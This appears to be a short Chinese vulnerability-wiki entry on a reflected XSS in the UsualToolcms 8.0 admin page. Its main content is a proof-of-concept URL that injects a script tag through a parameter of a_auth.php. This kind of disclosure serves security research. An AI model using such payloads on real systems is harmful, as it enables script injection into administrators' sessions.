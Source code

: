 UsualToolcms 8.0 后台反射型XSS
==============================

一、漏洞简介
------------

二、漏洞影响
------------

UsualToolcms 8.0

三、复现过程
------------

![1.png](/Users/aresx/Documents/VulWiki/.resource/UsualToolcms8.0后台反射型XSS/media/rId24.png)

### poc

    https://www.0-sec.org/cmsadmin/a_auth.php?do=update&l=%22%3C/script%3E%3Cscript%3Ealert(1)%3C/script%3E

![2.png](/Users/aresx/Documents/VulWiki/.resource/UsualToolcms8.0后台反射型XSS/media/rId26.png)

参考链接
--------

> https://xz.aliyun.com/t/8100
